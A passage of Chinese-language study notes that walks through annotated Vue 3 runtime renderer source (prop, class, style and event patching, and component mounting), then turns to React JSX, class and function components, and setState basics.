VNodeArrayChildren, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); return; } } // children has 3 possibilities: text, array or no children. if (shapeFlag & ShapeFlags.TEXT_CHILDREN) { // text children fast path if (prevShapeFlag & ShapeFlags.ARRAY_CHILDREN) { // 新节点是 text, 旧节点是 array，卸载子节点 unmountChildren(c1 as VNode[], parentComponent, parentSuspense); } if (c2 !== c1) { // 都是文本，直接更新 hostSetElementText(container, c2 as string); } } else { if (prevShapeFlag & ShapeFlags.ARRAY_CHILDREN) { // prev children was array if (shapeFlag & ShapeFlags.ARRAY_CHILDREN) { // 新旧都是 array，diff 操作 // two arrays, cannot assume anything, do full diff patchKeyedChildren( c1 as VNode[], c2 as VNodeArrayChildren, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else { // 旧是数组，新不是数组，卸载子节点 // no new children, just unmount old unmountChildren(c1 as VNode[], parentComponent, parentSuspense, true); } } else { // prev children was text OR null // new children is array OR null if (prevShapeFlag & ShapeFlags.TEXT_CHILDREN) { // 新不是 text，旧是 text，删除旧节点的文本 hostSetElementText(container, ''); } // mount new if array if (shapeFlag & ShapeFlags.ARRAY_CHILDREN) { // 旧节点不是 array， 新节点是 arry，新节点直接挂载 mountChildren( c2 as VNodeArrayChildren, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } } } }; const patchProps = ( el: RendererElement, vnode: VNode, oldProps: Data, newProps: Data, parentComponent: ComponentInternalInstance | null, parentSuspense: SuspenseBoundary | null, isSVG: boolean ) => { if (oldProps !== newProps) { // 循环新的 props，设置新 props for (const key in newProps) { // empty string is not valid prop if (isReservedProp(key)) continue; const next = newProps[key]; const prev = oldProps[key]; // defer patching value if (next !== prev && key !== 'value') { hostPatchProp( el, key, prev, next, isSVG, vnode.children as VNode[], parentComponent, parentSuspense, unmountChildren ); } } if (oldProps !== EMPTY_OBJ) { // 循环旧的 props，删除已经不存在的 props for (const key in oldProps) { if (!isReservedProp(key) && !(key in newProps)) { hostPatchProp( el, key, oldProps[key], null, isSVG, vnode.children as VNode[], parentComponent, parentSuspense, unmountChildren ); } } } if ('value' in newProps) { hostPatchProp(el, 'value', oldProps.value, newProps.value); } } }; -
patchProp 处理各种 props，比如 class，style，事件
export const patchProp: DOMRendererOptions['patchProp'] = (
el,
key,
prevValue,
nextValue,
isSVG = false,
prevChildren,
parentComponent,
parentSuspense,
unmountChildren
) => {
if (key === 'class') {
// 处理 class
patchClass(el, nextValue, isSVG);
} else if (key === 'style') {
// 处理 style
patchStyle(el, prevValue, nextValue);
} else if (isOn(key)) {
// 处理事件
// ignore v-model listeners
if (!isModelListener(key)) {
patchEvent(el, key, prevValue, nextValue, parentComponent);
}
} else if (
// 处理 property
key[0] === '.'
? ((key = key.slice(1)), true)
: key[0] === '^'
? ((key = key.slice(1)), false)
: shouldSetAsProp(el, key, nextValue, isSVG)
) {
patchDOMProp(
el,
key,
nextValue,
prevChildren,
parentComponent,
parentSuspense,
unmountChildren
);
} else {
// 其他 props 以 attribute 形式更新
// special case for <input v-model type="checkbox"> with
// :true-value & :false-value
// store value as dom properties since non-string values will be
// stringified.
if (key === 'true-value') {
(el as any)._trueValue = nextValue;
} else if (key === 'false-value') {
(el as any)._falseValue = nextValue;
}
patchAttr(el, key, nextValue, isSVG, parentComponent);
}
};
// 判断是否 prop 要以 property 的形式更新，也就是点操作符直接属性赋值
function shouldSetAsProp(
el: Element,
key: string,
value: unknown,
isSVG: boolean
) {
if (isSVG) {
// most keys must be set as attribute on svg elements to work
// ...except innerHTML & textContent
if (key === 'innerHTML' || key === 'textContent') {
return true;
}
// or native onclick with function values
if (key in el && nativeOnRE.test(key) && isFunction(value)) {
return true;
}
return false;
}
// these are enumerated attrs, however their corresponding DOM properties
// are actually booleans - this leads to setting it with a string "false"
// value leading it to be coerced to `true`, so we need to always treat
// them as attributes.
// Note that `contentEditable` doesn't have this problem: its DOM
// property is also enumerated string values.
if (key === 'spellcheck' || key === 'draggable' || key === 'translate') {
return false;
}
// #1787, #2840 form property on form elements is readonly and must be set as
// attribute.
if (key === 'form') {
return false;
}
// #1526 <input list> must be set as attribute
if (key === 'list' && el.tagName === 'INPUT') {
return false;
}
// #2766 <textarea type> must be set as attribute
if (key === 'type' && el.tagName === 'TEXTAREA') {
return false;
}
// native onclick with string value, must be set as attribute
if (nativeOnRE.test(key) && isString(value)) {
return false;
}
return key in el;
}
// compiler should normalize class + :class bindings on the same element
// into a single binding ['staticClass', dynamic]
// 挂载 class 属性
export function patchClass(el: Element, value: string | null, isSVG: boolean) {
// directly setting className should be faster than setAttribute in theory
// if this is an element during a transition, take the temporary transition
// classes into account.
const transitionClasses = (el as ElementWithTransition)._vtc;
if (transitionClasses) {
value = (
value ? [value, ...transitionClasses] : [...transitionClasses]
).join(' ');
}
if (value == null) {
// 某些旧浏览器（如 IE）在处理空 class 属性时存在问题，使用 removeAttribute 能确保完全移除
el.removeAttribute('class');
} else if (isSVG) {
// SVG 是 XML 命名空间下的文档，与 HTML 有不同的属性处理规则。部分浏览器（如 Firefox）要求通过 setAttribute 设置 SVG 的 class 属性才能正确应用样式
el.setAttribute('class', value);
} else {
// class 通过 attribute 或者 property 的形式设置都可以，当时使用 property 的形式直接操作 DOM 对象的属性性能更好，速度快，所以 vue 中使用 property className 的形式来设置
el.className = value;
}
}
// 处理 style
export function patchStyle(el: Element, prev: Style, next: Style) {
const style = (el as HTMLElement).style;
const isCssString = isString(next);
if (next && !isCssString) {
// 如果不是字符串，循环设置 style
for (const key in next) {
setStyle(style, key, next[key]);
}
// 去除上一轮 style 中已经不存在的样式
if (prev && !isString(prev)) {
for (const key in prev) {
if (next[key] == null) {
setStyle(style, key, '');
}
}
}
} else {
const currentDisplay = style.display;
if (isCssString) {
if (prev !== next) {
// 字符串形式，如果新旧样式不一样，直接赋值 cssText
style.cssText = next as string;
}
} else if (prev) {
// 无新样式，直接移除 style 属性
el.removeAttribute('style');
}
// indicates that the `display` of the element is controlled by `v-show`,
// so we always keep the current `display` value regardless of the `style`
// value, thus handing over control to `v-show`.
if ('_vod' in el) {
style.display = currentDisplay;
}
}
}
const importantRE = /\s*!important$/;
function setStyle(
style: CSSStyleDeclaration,
name: string,
val: string | string[]
) {
if (isArray(val)) {
val.forEach((v) => setStyle(style, name, v));
} else {
if (val == null) val = '';
if (name.startsWith('--')) {
// -- 开头的兼容样式
// custom property definition
style.setProperty(name, val);
} else {
const prefixed = autoPrefix(style, name);
if (importantRE.test(val)) {
// !important 的样式
style.setProperty(
hyphenate(prefixed),
val.replace(importantRE, ''),
'important'
);
} else {
// 其他情况直接设置
style[prefixed as any] = val;
}
}
}
}
// 处理事件
export function patchEvent(
el: Element & { _vei?: Record<string, Invoker | undefined> },
rawName: string,
prevValue: EventValue | null,
nextValue: EventValue | null,
instance: ComponentInternalInstance | null = null
) {
// vei = vue event invokers
// 从缓存中读取已经存在的事件回调
const invokers = el._vei || (el._vei = {});
const existingInvoker = invokers[rawName];
// 更新事件
if (nextValue && existingInvoker) {
// patch
existingInvoker.value = nextValue;
} else {
// 第一次挂载事件
// parseName 去掉事件名中的 on
const [name, options] = parseName(rawName);
if (nextValue) {
// add 新增
// createInvoker 创建的其实是这样一个方法：() => invoker.value()
// 然后将这个 invoker 缓存在 _vei 也就是 invokers[rawName] 中，当相同事件名的回调需要修改的时候，就不需要频繁调用 removeEventListener 和 addEventListener，而是直接修改 existingInvoker.value 就可以了
const invoker = (invokers[rawName] = createInvoker(nextValue, instance));
addEventListener(el, name, invoker, options);
} else if (existingInvoker) {
// remove 移除
removeEventListener(el, name, existingInvoker, options);
invokers[rawName] = undefined;
}
}
}
function createInvoker(
initialValue: EventValue,
instance: ComponentInternalInstance | null
) {
const invoker: Invoker = (e: Event) => {
// async edge case #6566: inner click event triggers patch, event handler
// attached to outer element during patch, and triggered again. This
// happens because browsers fire microtask ticks between event propagation.
// the solution is simple: we save the timestamp when a handler is attached,
// and the handler would only fire if the event passed to it was fired
// AFTER it was attached.
const timeStamp = e.timeStamp || _getNow();
if (skipTimestampCheck || timeStamp >= invoker.attached - 1) {
// callWithAsyncErrorHandling 只是做了 try catch
// 这里真正最后执行的是 invoker.value
callWithAsyncErrorHandling(
patchStopImmediatePropagation(e, invoker.value),
instance,
ErrorCodes.NATIVE_EVENT_HANDLER,
[e]
);
}
};
// 真正的回调放在 invoker.value 上
invoker.value = initialValue;
invoker.attached = getNow();
return invoker;
}
-
文本节点处理
const processText: ProcessTextOrCommentFn = (n1, n2, container, anchor) => { if (n1 == null) { // 首次挂载，document.createTextNode 创建文本节点，然后 insertBefore 插入 hostInsert( (n2.el = hostCreateText(n2.children as string)), container, anchor ); } else { // 更新 设置文本节点的 nodeValue const el = (n2.el = n1.el!); if (n2.children !== n1.children) { hostSetText(el, n2.children as string); } } }; -
注释节点处理
const processCommentNode: ProcessTextOrCommentFn = ( n1, n2, container, anchor ) => { if (n1 == null) { // document.createComment 创建注释节点，然后 insertBefore 插入 hostInsert( (n2.el = hostCreateComment((n2.children as string) || '')), container, anchor ); } else { // there's no support for dynamic comments n2.el = n1.el; } }; -
fragment 节点处理
const processFragment = ( n1: VNode | null, n2: VNode, container: RendererElement, anchor: RendererNode | null, parentComponent: ComponentInternalInstance | null, parentSuspense: SuspenseBoundary | null, isSVG: boolean, slotScopeIds: string[] | null, optimized: boolean ) => { const fragmentStartAnchor = (n2.el = n1 ? n1.el : hostCreateText(''))!; const fragmentEndAnchor = (n2.anchor = n1 ? n1.anchor : hostCreateText(''))!; let { patchFlag, dynamicChildren, slotScopeIds: fragmentSlotScopeIds } = n2; if ( __DEV__ && // #5523 dev root fragment may inherit directives (isHmrUpdating || patchFlag & PatchFlags.DEV_ROOT_FRAGMENT) ) { // HMR updated / Dev root fragment (w/ comments), force full diff patchFlag = 0; optimized = false; dynamicChildren = null; } // check if this is a slot fragment with :slotted scope ids if (fragmentSlotScopeIds) { slotScopeIds = slotScopeIds ? slotScopeIds.concat(fragmentSlotScopeIds) : fragmentSlotScopeIds; } if (n1 == null) { // 首次挂载 hostInsert(fragmentStartAnchor, container, anchor); hostInsert(fragmentEndAnchor, container, anchor); // a fragment can only have array children // since they are either generated by the compiler, or implicitly created // from arrays. // 挂载 children，for 循环每一个子节点，将其挂载 mountChildren( n2.children as VNodeArrayChildren, container, fragmentEndAnchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else { if ( patchFlag > 0 && patchFlag & PatchFlags.STABLE_FRAGMENT && dynamicChildren && // #2715 the previous fragment could've been a BAILed one as a result // of renderSlot() with no valid children n1.dynamicChildren ) { // a stable fragment (template root or <template v-for>) doesn't need to // patch children order, but it may contain dynamicChildren. patchBlockChildren( n1.dynamicChildren, dynamicChildren, container, parentComponent, parentSuspense, isSVG, slotScopeIds ); if (__DEV__ && parentComponent && parentComponent.type.__hmrId) { traverseStaticChildren(n1, n2); } else if ( // #2080 if the stable fragment has a key, it's a <template v-for> that may // get moved around. Make sure all root level vnodes inherit el. // #2134 or if it's a component root, it may also get moved around // as the component is being moved. n2.key != null || (parentComponent && n2 === parentComponent.subTree) ) { traverseStaticChildren(n1, n2, true /* shallow */); } } else { // keyed / unkeyed, or manual fragments. // for keyed & unkeyed, since they are compiler generated from v-for, // each child is guaranteed to be a block so the fragment will never // have dynamicChildren. patchChildren( n1, n2, container, fragmentEndAnchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } } };
总结
-
ELEMENT | TEXT_CHILDREN 节点的挂载操作
- 先判断节点类型，然后走对应的处理函数，然后判断旧节点是否存在，然后走挂载或者更新函数
-
- 创建 dom 元素
-
- 创建子节点文本
-
- 处理 props
-
- 将 dom 元素插入 container
-
- 将旧节点存在 container._vnode 属性中
-
更新节点操作，如果新节点和旧节点类型不同，则直接将旧节点删除，然后挂载新节点，如果两个节点类型相同才会走更新操作
-
挂载 props 的时候
- 对于 class，用 el.className 来挂载
- 对于 value，用 el.value 或者 el['value'] 挂载
- 对于其他属性，用 el.setAttribute 挂载
- property 是浏览器根据 html 生成的 dom 节点对象的属性。
-
attribute 是在 html 代码中在标签上定义的属性。它会被加入到 dom 节点的 attributes 属性中。
- element.getAttribute(name) 获取属性
- element.setAttribute(name, value) 设置属性
- element.removeAttribute(name) 删除属性
- element.hasAttribute(name) 是否包含有指定的属性
- attribute 对象包含标签里定义的所有属性，property 只包含 html 标准的属性，不包含自定义属性
- attribute 里的属性的值是 html 标签上原始的值，除非使用 setAttribute() 方法更改，不会根据用户输入而改变（eg: input 标签）。property 在页面初始化时会映射并创建 Attribute 对象里的标准属性，从而节点对象能以对象的访问方式获取标准属性。在用户输入内容修改了原始值后，property 里对应的属性会随之变化。即，查看原始值使用 attribute，查看最新值使用 property。（input 的 value 值也可以通过 input.defaultValue 查看原始值）
- property 与 attribute 的某些属性名称是完全一样的，例如 ref, id。某些名称有些轻微差别，例如 attribute 里的 for、class 属性映射出来对应 property 里的 htmlFor、className.某些属性名称一样，但是属性值会有限制或者修改，不会完全一样，相关的属性有 src, href, disabled, multiple 等。
- 由于 property 不能读取自定义属性，如果标签在开始的时候对标准属性定义了非标准范围内的值，property 会默认选择一个标准值代替，导致与 attribute 里的属性不完全相等。
<input id="input" type="foo"></input> // input.type === 'text' // input.getAttribute('type') === 'foo'
-
class 通过 attribute 或者 property 的形式设置都可以，当时使用 property 的形式直接操作 DOM 对象的属性性能更好，速度快，所以 vue 中使用 property className 的形式来设置
-
处理事件的时候使用 createInvoker 创建的其实是这样一个方法：() => invoker.value()。然后将这个 invoker 缓存在 _vei 也就是 invokers[rawName] 中，当相同事件名的回调需要修改的时候，就不需要频繁调用 removeEventListener 和 addEventListener，而是直接修改 existingInvoker.value 就可以了
runtime component 源码
<script>
// 无状态组件
const { h, render } = Vue;
const component = {
render() {
return h('div', 'hello component');
},
};
const vnode = h(component);
render(vnode, document.querySelector('#app'));
</script>
<script>
// 有状态组件
const { h, render } = Vue;
const component = {
data() {
return {
msg: 'hello, component',
};
},
render() {
return h('div', this.msg);
},
};
const vnode = h(component);
render(vnode, document.querySelector('#app'));
</script>
<script>
// 生命周期
const { h, render } = Vue;
const component = {
data() {
return {
msg: 'hello, component',
};
},
render() {
return h('div', this.msg);
},
beforeCreate() {
alert('beforeCreate');
},
create() {
alert('create');
},
beforeMount() {
alert('beforeMount');
},
mounted() {
alert('mounted');
},
};
const vnode = h(component);
render(vnode, document.querySelector('#app'));
</script>
<script>
// 生命周期
const { h, render, reactive } = Vue;
const component = {
setup() {
const obj = reactive({
name: '张三',
});
return () => h('div', obj.name);
},
};
const vnode = h(component);
render(vnode, document.querySelector('#app'));
</script>
-
patch，这时候 n2 的 type 是一个包含 render 属性的对象，最后调用 processComponent
const patch: PatchFn = ( n1, n2, container, anchor = null, parentComponent = null, parentSuspense = null, isSVG = false, slotScopeIds = null, optimized = __DEV__ && isHmrUpdating ? false : !!n2.dynamicChildren ) => { if (n1 === n2) { return; } // 当无状态组件更新的时候，先卸载旧的，再挂载新的 // patching & not same type, unmount old tree if (n1 && !isSameVNodeType(n1, n2)) { anchor = getNextHostNode(n1); unmount(n1, parentComponent, parentSuspense, true); n1 = null; } if (n2.patchFlag === PatchFlags.BAIL) { optimized = false; n2.dynamicChildren = null; } const { type, ref, shapeFlag } = n2; switch (type) { case Text: processText(n1, n2, container, anchor); break; case Comment: processCommentNode(n1, n2, container, anchor); break; case Static: if (n1 == null) { mountStaticNode(n2, container, anchor, isSVG); } else if (__DEV__) { patchStaticNode(n1, n2, container, isSVG); } break; case Fragment: processFragment( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); break; // component 会走到 default default: if (shapeFlag & ShapeFlags.ELEMENT) { processElement( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else if (shapeFlag & ShapeFlags.COMPONENT) { // component 处理 processComponent( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else if (shapeFlag & ShapeFlags.TELEPORT) { (type as typeof TeleportImpl).process( n1 as TeleportVNode, n2 as TeleportVNode, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized, internals ); } else if (__FEATURE_SUSPENSE__ && shapeFlag & ShapeFlags.SUSPENSE) { (type as typeof SuspenseImpl).process( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized, internals ); } else if (__DEV__) { warn('Invalid VNode type:', type, `(${typeof type})`); } } // set ref if (ref != null && parentComponent) { setRef(ref, n1 && n1.ref, parentSuspense, n2 || n1, !n2); } }; -
processComponent 最后调用 mountComponent
const processComponent = ( n1: VNode | null, n2: VNode, container: RendererElement, anchor: RendererNode | null, parentComponent: ComponentInternalInstance | null, parentSuspense: SuspenseBoundary | null, isSVG: boolean, slotScopeIds: string[] | null, optimized: boolean ) => { n2.slotScopeIds = slotScopeIds; if (n1 == null) { // 判断是否是 keep-alive if (n2.shapeFlag & ShapeFlags.COMPONENT_KEPT_ALIVE) { (parentComponent!.ctx as KeepAliveContext).activate( n2, container, anchor, isSVG, optimized ); } else { // 首次挂载 component mountComponent( n2, container, anchor, parentComponent, parentSuspense, isSVG, optimized ); } } else { updateComponent(n1, n2, optimized); } }; -
mountComponent 首次挂载 component
const mountComponent: MountComponentFn = ( initialVNode, container, anchor, parentComponent, parentSuspense, isSVG, optimized ) => { // 2.x compat may pre-create the component instance before actually // mounting const compatMountInstance = __COMPAT__ && initialVNode.isCompatRoot && initialVNode.component; // 调用 createComponentInstance 生成组件实例 const instance: ComponentInternalInstance = compatMountInstance || (initialVNode.component = createComponentInstance( initialVNode, parentComponent, parentSuspense )); if (__DEV__ && instance.type.__hmrId) { registerHMR(instance); } if (__DEV__) { pushWarningContext(initialVNode); startMeasure(instance, `mount`); } // inject renderer internals for keepAlive if (isKeepAlive(initialVNode)) { (instance.ctx as KeepAliveContext).renderer = internals; } // resolve props and slots for setup context if (!(__COMPAT__ && compatMountInstance)) { if (__DEV__) { startMeasure(instance, `init`); } // 初始化 component // setupComponent 中调用了 setupStatefulComponent，setupStatefulComponent中调用了 finishComponentSetup，其中将组件对象的 render 赋值给了组件实例的 render 属性：instance.render = (Component.render || NOOP) // 当我们的 component 是有 data 数据的，那么 setupComponent 中的 setupStatefulComponent 中的 finishComponentSetup 中的 applyOptions 会去处理 compontnt 中的 data，获取到 data 函数的返回值，然后将其变成 reactive proxy 然后挂到 instance 上 setupComponent(instance); if (__DEV__) { endMeasure(instance, `init`); } } // setup() is async. This component relies on async logic to be resolved // before proceeding if (__FEATURE_SUSPENSE__ && instance.asyncDep) { parentSuspense && parentSuspense.registerDep(instance, setupRenderEffect); // Give it a placeholder if this is not hydration // TODO handle self-defined fallback if (!initialVNode.el) { const placeholder = (instance.subTree = createVNode(Comment)); processCommentNode(null, placeholder, container!, anchor); } return; } // 处理组件 effect setupRenderEffect( instance, initialVNode, container, anchor, parentSuspense, isSVG, optimized ); if (__DEV__) { popWarningContext(); endMeasure(instance, `mount`); } }; -
setupRenderEffect 处理组件 effect
const setupRenderEffect: SetupRenderEffectFn = (
instance,
initialVNode,
container,
anchor,
parentSuspense,
isSVG,
optimized
) => {
// 为 reactiveEffect 生成 fn 函数
const componentUpdateFn = () => {
// 还未 mounted 的阶段
if (!instance.isMounted) {
let vnodeHook: VNodeHook | null | undefined;
const { el, props } = initialVNode;
const { bm, m, parent } = instance;
const isAsyncWrapperVNode = isAsyncWrapper(initialVNode);
toggleRecurse(instance, false);
// beforeMount hook
if (bm) {
invokeArrayFns(bm);
}
// onVnodeBeforeMount
if (
!isAsyncWrapperVNode &&
(vnodeHook = props && props.onVnodeBeforeMount)
) {
invokeVNodeHook(vnodeHook, parent, initialVNode);
}
if (
__COMPAT__ &&
isCompatEnabled(DeprecationTypes.INSTANCE_EVENT_HOOKS, instance)
) {
instance.emit('hook:beforeMount');
}
toggleRecurse(instance, true);
if (el && hydrateNode) {
// vnode has adopted host node - perform hydration instead of mount.
const hydrateSubTree = () => {
if (__DEV__) {
startMeasure(instance, `render`);
}
instance.subTree = renderComponentRoot(instance);
if (__DEV__) {
endMeasure(instance, `render`);
}
if (__DEV__) {
startMeasure(instance, `hydrate`);
}
hydrateNode!(
el as Node,
instance.subTree,
instance,
parentSuspense,
null
);
if (__DEV__) {
endMeasure(instance, `hydrate`);
}
};
if (isAsyncWrapperVNode) {
(initialVNode.type as ComponentOptions).__asyncLoader!().then(
// note: we are moving the render call into an async callback,
// which means it won't track dependencies - but it's ok because
// a server-rendered async wrapper is already in resolved state
// and it will never need to change.
() => !instance.isUnmounted && hydrateSubTree()
);
} else {
hydrateSubTree();
}
} else {
if (__DEV__) {
startMeasure(instance, `render`);
}
// 下面会调用 patch 去挂载 subTree，这里就是组件的核心挂载逻辑
// renderComponentRoot 中调用了组件的 render 函数生成了 vnode 返回，这里 subTree 就是组件的 vnode
// 当 component 有 data 的时候，render 函数调用的时候是用 call 调用的，传递的 this 其实就是 data 对应的 proxy，所以其中就可以通过 this 获取到响应式数据的值
const subTree = (instance.subTree = renderComponentRoot(instance));
if (__DEV__) {
endMeasure(instance, `render`);
}
if (__DEV__) {
startMeasure(instance, `patch`);
}
patch(
null,
subTree,
container,
anchor,
instance,
parentSuspense,
isSVG
);
if (__DEV__) {
endMeasure(instance, `patch`);
}
initialVNode.el = subTree.el;
}
// mounted hook
if (m) {
queuePostRenderEffect(m, parentSuspense);
}
// onVnodeMounted
if (!isAsyncWrapperVNode && (vnodeHook = props && props.onVnodeMounted)) {
const scopedInitialVNode = initialVNode;
queuePostRenderEffect(
() => invokeVNodeHook(vnodeHook!, parent, scopedInitialVNode),
parentSuspense
);
}
if (
__COMPAT__ &&
isCompatEnabled(DeprecationTypes.INSTANCE_EVENT_HOOKS, instance)
) {
queuePostRenderEffect(
() => instance.emit('hook:mounted'),
parentSuspense
);
}
// activated hook for keep-alive roots.
// #1742 activated hook must be accessed after first render
// since the hook may be injected by a child keep-alive
if (
initialVNode.shapeFlag & ShapeFlags.COMPONENT_SHOULD_KEEP_ALIVE ||
(parent &&
isAsyncWrapper(parent.vnode) &&
parent.vnode.shapeFlag & ShapeFlags.COMPONENT_SHOULD_KEEP_ALIVE)
) {
instance.a && queuePostRenderEffect(instance.a, parentSuspense);
if (
__COMPAT__ &&
isCompatEnabled(DeprecationTypes.INSTANCE_EVENT_HOOKS, instance)
) {
queuePostRenderEffect(
() => instance.emit('hook:activated'),
parentSuspense
);
}
}
instance.isMounted = true;
if (__DEV__ || __FEATURE_PROD_DEVTOOLS__) {
devtoolsComponentAdded(instance);
}
// #2458: deference mount-only object parameters to prevent memleaks
initialVNode = container = anchor = null as any;
} else {
// updateComponent
// This is triggered by mutation of component's own state (next: null)
// OR parent calling processComponent (next: VNode)
let { next, bu, u, parent, vnode } = instance;
let originNext = next;
let vnodeHook: VNodeHook | null | undefined;
if (__DEV__) {
pushWarningContext(next || instance.vnode);
}
// Disallow component effect recursion during pre-lifecycle hooks.
toggleRecurse(instance, false);
if (next) {
next.el = vnode.el;
updateComponentPreRender(instance, next, optimized);
} else {
next = vnode;
}
// beforeUpdate hook
if (bu) {
invokeArrayFns(bu);
}
// onVnodeBeforeUpdate
if ((vnodeHook = next.props && next.props.onVnodeBeforeUpdate)) {
invokeVNodeHook(vnodeHook, parent, next, vnode);
}
if (
__COMPAT__ &&
isCompatEnabled(DeprecationTypes.INSTANCE_EVENT_HOOKS, instance)
) {
instance.emit('hook:beforeUpdate');
}
toggleRecurse(instance, true);
// render
if (__DEV__) {
startMeasure(instance, `render`);
}
// 重新调用 render 函数生成新的 vnode
const nextTree = renderComponentRoot(instance);
if (__DEV__) {
endMeasure(instance, `render`);
}
// 旧的 vnode
const prevTree = instance.subTree;
// 新的 vnode 赋值给 subTree
instance.subTree = nextTree;
if (__DEV__) {
startMeasure(instance, `patch`);
}
// patch 更新 dom
patch(
prevTree,
nextTree,
// parent may have changed if it's in a teleport
hostParentNode(prevTree.el!)!,
// anchor may have changed if it's in a fragment
getNextHostNode(prevTree),
instance,
parentSuspense,
isSVG
);
if (__DEV__) {
endMeasure(instance, `patch`);
}
next.el = nextTree.el;
if (originNext === null) {
// self-triggered update. In case of HOC, update parent component
// vnode el. HOC is indicated by parent instance's subTree pointing
// to child component's vnode
updateHOCHostEl(instance, nextTree.el);
}
// updated hook
if (u) {
queuePostRenderEffect(u, parentSuspense);
}
// onVnodeUpdated
if ((vnodeHook = next.props && next.props.onVnodeUpdated)) {
queuePostRenderEffect(
() => invokeVNodeHook(vnodeHook!, parent, next!, vnode),
parentSuspense
);
}
if (
__COMPAT__ &&
isCompatEnabled(DeprecationTypes.INSTANCE_EVENT_HOOKS, instance)
) {
queuePostRenderEffect(
() => instance.emit('hook:updated'),
parentSuspense
);
}
if (__DEV__ || __FEATURE_PROD_DEVTOOLS__) {
devtoolsComponentUpdated(instance);
}
if (__DEV__) {
popWarningContext();
}
}
};
// create reactive effect for rendering
// 生成 reactiveEffect，fn 就是上面的 componentUpdateFn，第二个参数调度器其中的 update 最终就是执行 componentUpdateFn
const effect = (instance.effect = new ReactiveEffect(
componentUpdateFn,
() => queueJob(update),
instance.scope // track it in component's effect scope
));
// 调度器其中的 update 最终就是执行 componentUpdateFn
const update: SchedulerJob = (instance.update = () => effect.run());
update.id = instance.uid;
// allowRecurse
// #1801, #2043 component render effects should allow recursive updates
toggleRecurse(instance, true);
if (__DEV__) {
effect.onTrack = instance.rtc
? (e) => invokeArrayFns(instance.rtc!, e)
: void 0;
effect.onTrigger = instance.rtg
? (e) => invokeArrayFns(instance.rtg!, e)
: void 0;
update.ownerInstance = instance;
}
// 执行 update，其实就是执行 componentUpdateFn
update();
};
总结
- 整个组件挂载从 mountComponent 开始，先会创建 component 的实例，调用 setupComponent 初始化组件的属性，并且将 component.render 赋值给 instance.render，setupRenderEffect 中生成 reactiveEffect 实例，fn 是 componentUpdateFn，并调用一次 fn，fn 中调用 render 获取到组件的 vnode，然后调用 patch 生成真正的 dom
- 组件的渲染本质就是 render 函数返回值 vnode 的渲染
- 当我们的 component 是有 data 数据的，那么 setupComponent 会去处理 compontnt 中的 data，获取到 data 函数的返回值，然后将其变成 reactive proxy 然后挂到 instance
- 所以 setupComponent 做了两件事，第一就是将组件的 render 赋值给 instance.render，第二就是获取到 data 然后将其响应性然后挂到 instance 上
- 有状态组件和无状态组件的区别就在于，有状态的 render 中的 this.data 要变成真实的值，就需要在调用 render 的时候改变 this 的指向，让 this 指向 data 数据对象
- 生命周期函数中访问响应数据的原理是这些 hook 调用了 bind 改变了 this 指向，绑定到了响应式数据上
- setup 的方式定义的组件，其原理不需要处理获取响应数据的 this 指向，因为在 setup 中响应数据和最终返回的 render 函数处于同一作用域下
jsx
基础用法
import React from 'react';
import ReactDOM from 'react-dom';
import logo from './logo512.png'
import style from './index.module.scss'
const name = 'React';
const obj = {
firstName: 'Harry',
lastName: 'Potter'
};
function formatName(obj) {
return obj.firstName + obj.lastName
}
const greet = (<div>good</div>);
const show = true;
const arr = [1, 2, 3];
const jsx = (
{/*这是一条注释*/}
{
//这是一条注释
}
<div className={style.app}>
<div>Hello, {name}</div>
<div>{formatName(obj)}</div>
<div>{greet}</div>
<div>{show ? greet : 'login'}</div>
<div>{show && 'login'}</div>
<ul>
{arr.map((i, index) => <li key={index}>{i}</li>)}
</ul>
<img src={logo} alt="logo" className={style.logo} />
<div style={{width: '50px', height: '50px', border: '1px solid #000'}}></div>
</div>
);
ReactDOM.render(jsx, document.getElementById('root'));
// 基本使用，js 表达式用 {} 包含
// 函数
// jsx 对象
// 条件语句
// 数组
// 属性
// css 模块化 需要按照 sass 依赖，node-sass 依赖已经不更新了
jsx 的原理
jsx 实际上仅仅是 React.createElement(type, config, children) 方法的语法糖，该方法接收三个参数：
- type，当前 ReactElement 的类型，如果是标签元素，那么使用字符串表示 div，如果是组件元素直接使用组件的名称就可以。
- config，我们在JSX中绑定的属性会在 config 对象中以键值对的形式存在。
- children，存放标签中的内容，以 children 数组的形式存储
jsx 是依赖 babel 解析的，链接。
通过 React.createElement() 方法最后返回得到的是一个 ReactElement 对象，React 利用 ReactElement 对象组成了一个 JavaScript 对象树，这个对象树就是我们经常讲的一个概念虚拟 DOM，我们可以将之前 jsx 返回的结果进行打印来查看对应的 ReactElemnt 对象。对应的 ReactElement 对象树经过 ReactDOM.render() 方法转换为真正的 DOM 在我们的浏览器进行渲染。
为什么采用虚拟DOM呢？
- 很难跟踪状态发生的改变：原有的开发模式，我们很难跟踪到状态发生的改变，不方便针对我们应用程序进行调试；
- 操作真实 DOM 性能较低：传统的开发模式会进行频繁的 DOM 操作，而这一的做法性能非常的低；
组件
类组件
import React, { Component } from "react";
export default class ClassComponent extends Component {
constructor(props) {
super(props);
this.state = {
date: new Date()
}
}
componentDidMount() {
this.timer = setInterval(() => {
this.setState({
date: new Date()
})
}, 1000);
}
componentWillUnmount() {
clearInterval(this.timer);
}
render() {
const { date } = this.state;
return (
<div>
{date.toLocaleString()}
</div>
)
}
}
函数组件
import React, { useState, useEffect } from 'react';
export default function FunctionComponent(props) {
const [date, setDate] = useState(new Date());
useEffect(() => {
const timer = setInterval(() => {
setDate(new Date());
}, 1000);
return () => clearInterval(timer);
}, []);
return (
<div>
<div>FunctionComponent</div>
<div>{date.toLocaleString()}</div>
</div>
)
}
setState
- setState 在合成事件和生命周期中是异步的，其实是批量更新，为了性能优化。把多次 setState 合成一次
- setTimeout 和原生事件中 setState 是同步的
- setState 传递一个函数就可以实现链式调用。如果不用这种形式，那么 setState 多次调用修改同一个值，则只有最后一次起作用，将前面的调用都覆盖掉
import React, { Component } from 'react'
export default class SetState extends Component {
constructor(props) {
super(props);
